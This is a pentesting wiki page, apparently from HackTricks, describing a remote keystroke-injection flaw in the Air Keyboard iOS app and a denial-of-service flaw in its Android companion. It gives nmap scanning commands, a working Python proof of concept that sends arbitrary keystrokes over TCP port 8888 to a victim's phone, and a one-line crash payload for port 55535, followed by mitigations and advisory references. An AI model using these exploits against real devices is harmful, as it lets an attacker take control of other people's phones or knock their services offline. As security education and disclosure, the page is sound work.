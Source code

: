 # Air Keyboard Remote Input Injection (Unauthenticated TCP Listener)

{{#include ../../banners/hacktricks-training.md}}

## TL;DR

The iOS version of the commercial "Air Keyboard" application (App Store ID 6463187929) opens a **clear-text TCP service on port 8888** that accepts keystroke frames **without any authentication**.  
Any device on the same Wi-Fi network can connect to that port and inject arbitrary keyboard input into the victim’s phone, achieving **full remote interaction hijacking**.  

A companion Android build listens on **port 55535**.  It performs a weak AES-ECB handshake, but crafted garbage causes an **unhandled exception in the OpenSSL decryption routine**, crashing the background service (**DoS**).

## 1. Service Discovery

Scan the local network and look for the two fixed ports used by the apps:

```bash
# iOS (input-injection)
nmap -p 8888 --open 192.168.1.0/24

# Android (weakly-authenticated service)
nmap -p 55535 --open 192.168.1.0/24
```

On Android handsets you can identify the responsible package locally:

```bash
adb shell netstat -tulpn | grep 55535     # no root required on emulator

# rooted device / Termux
netstat -tulpn | grep LISTEN
ls -l /proc/<PID>/cmdline                # map PID → package name
```

## 2. Frame Format (iOS)

The binary reveals the following parsing logic inside the `handleInputFrame()` routine:

```
[length (2 bytes little-endian)]
[device_id (1 byte)]
[payload ASCII keystrokes]
```

The declared length includes the `device_id` byte **but not** the two-byte header itself.

## 3. Exploitation PoC

```python
#!/usr/bin/env python3
"""Inject arbitrary keystrokes into Air Keyboard for iOS"""
import socket, sys

target_ip = sys.argv[1]                  # e.g. 192.168.1.50
keystrokes = b"open -a Calculator\n"     # payload visible to the user

frame  = bytes([(len(keystrokes)+1) & 0xff, (len(keystrokes)+1) >> 8])
frame += b"\x01"                         # device_id = 1 (hard-coded)
frame += keystrokes

with socket.create_connection((target_ip, 8888)) as s:
    s.sendall(frame)
print("Injected", keystrokes)
```

Any printable ASCII (including `\n`, `\r`, special keys, etc.) can be sent, effectively granting the attacker the same power as physical user input: launching apps, sending IMs, visiting phishing URLs, etc.

## 4. Android Companion – Denial-of-Service

The Android port (55535) expects a 4-character password encrypted with a **hard-coded AES-128-ECB key** followed by a random nonce.  Parsing errors bubble up to `AES_decrypt()` and are not caught, terminating the listener thread.  A single malformed packet is therefore enough to keep legitimate users disconnected until the process is relaunched.

```python
import socket
socket.create_connection((victim, 55535)).send(b"A"*32)  # minimal DoS
```

## 5. Root Cause

1. **No origin / integrity checks** on incoming frames (iOS).  
2. **Cryptographic misuse** (static key, ECB, missing length validation) and **lack of exception handling** (Android).

## 6. Mitigations & Hardening Ideas

* Never expose unauthenticated services on a mobile handset.  
* Derive per-device secrets during onboarding and verify them before processing input.  
* Bind the listener to `127.0.0.1` and use a mutually authenticated, encrypted transport (e.g., TLS, Noise) for remote control.  
* Detect unexpected open ports during mobile security reviews (`netstat`, `lsof`, `frida-trace` on `socket()` etc.).
* As an end-user: uninstall Air Keyboard or use it only on trusted, isolated Wi-Fi networks.

## Detection Cheat-Sheet (Pentesters)

```bash
# Quick one-liner to locate vulnerable devices in a /24
nmap -n -p 8888,55535 --open 192.168.1.0/24 -oG - | awk '/Ports/{print $2,$3,$4}'

# Inspect running sockets on a connected Android target
adb shell "for p in $(lsof -PiTCP -sTCP:LISTEN -n -t); do echo -n \"$p → "; cat /proc/$p/cmdline; done"
```

## References

- [Remote Input Injection Vulnerability in Air Keyboard iOS App Still Unpatched](https://www.mobile-hacker.com/2025/07/17/remote-input-injection-vulnerability-in-air-keyboard-ios-app-still-unpatched/)
- [CXSecurity advisory WLB-2025060015](https://cxsecurity.com/issue/WLB-2025060015)

{{#include ../../banners/hacktricks-training.md}}